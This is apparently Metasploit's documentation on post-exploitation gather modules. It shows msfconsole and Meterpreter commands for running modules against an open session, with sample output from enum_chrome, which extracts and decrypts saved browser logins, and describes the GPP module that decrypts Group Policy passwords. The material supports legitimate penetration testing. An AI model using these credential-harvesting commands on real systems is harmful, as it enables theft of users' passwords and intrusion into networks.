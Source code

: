 ## Post Modules

Metasploit's post gather modules are useful after a Metasploit session has opened. This guide focuses on Post modules for gathering additional information from a host after a Metasploit session has opened.

Metasploit post modules replace old Meterpreter scripts, which are no longer maintained or accepted by the framework team.

You can search for post gather modules within msfconsole:

```msf
msf > search type:post platform:windows name:gather

Matching Modules
================

   #    Name                                                       Disclosure Date  Rank       Check  Description
   -    ----                                                       ---------------  ----       -----  -----------
   0    post/windows/gather/ad_to_sqlite                                            normal     No     AD Computer, Group and Recursive User Membership to Local SQLite DB
   1    post/windows/gather/credentials/aim                                         normal     No     Aim credential gatherer
   ... etc ..
```

### Usage

There are two ways to launch a Post module, both require an existing session.

Within a msf prompt you can use the `use` command followed by the `run` command to execute the module against the required session. For instance to extract credentials from Chrome on the most recently opened Metasploit session:

```msf
msf > use post/windows/gather/enum_chrome
msf post(windows/gather/enum_chrome) > run session=-1 verbose=true

[*] Impersonating token: 7192
[*] Running as user 'DESKTOP-N3MAG5R\basic_user'...
[*] Extracting data for user 'basic_user'...
[+] Downloaded Web Data to '/Users/user/.msf4/loot/20220422122125_default_192.168.123.151_chrome.raw.WebD_560928.txt'
[-] Cookies not found
[+] Downloaded History to '/Users/user/.msf4/loot/20220422122126_default_192.168.123.151_chrome.raw.Histo_861946.txt'
[+] Downloaded Login Data to '/Users/user/.msf4/loot/20220422122126_default_192.168.123.151_chrome.raw.Login_785667.txt'
[+] Downloaded Bookmarks to '/Users/user/.msf4/loot/20220422122127_default_192.168.123.151_chrome.raw.Bookm_612993.txt'
[+] Downloaded Preferences to '/Users/user/.msf4/loot/20220422122127_default_192.168.123.151_chrome.raw.Prefe_893631.txt'
[*] Found password encrypted with masterkey
[+] Found masterkey!
[+] Decrypted data: url:http://192.168.123.6/ helloworld:157746edfe6b4d369d7e656c00eeb5c8
[+] Decrypted data: url:https://www.example.com/ my_username:my_password_123
[+] Decrypted data saved in: /Users/user/.msf4/loot/20220422122129_default_192.168.123.151_chrome.decrypted_981698.txt
[*] Post module execution completed
msf post(windows/gather/enum_chrome) >
```

Or within a Meterpreter prompt use the `run` command, which will automatically set the module's session value:

```msf
msf > sessions --interact -1
[*] Starting interaction with 5...

meterpreter > run post/windows/gather/enum_applications

[*] Enumerating applications installed on DESKTOP-N3MAG5R

Installed Applications
======================

 Name                                                                Version
 ----                                                                -------
 7-Zip 21.07 (x64)                                                   21.07
 Application Verifier x64 External Package                           10.1.19041.685
 ClickOnce Bootstrapper Package for Microsoft .NET Framework         4.8.04162
 DiagnosticsHub_CollectionService                                    16.1.28901
 Docker Desktop                                                      2.2.0.4
 ... etc ..
```

## Useful modules

### Windows GPP Credentials

This module enumerates the victim machine's domain controller and connects to it via SMB. It then looks for Group Policy Preference XML files containing local user accounts and passwords and decrypts them using Microsoft's public AES key. Cached Group Policy files may be found on end-user devices if the group policy object is deleted rather than unlinked

```
use post/windows/gather/credentials/gpp
run session=-1
```

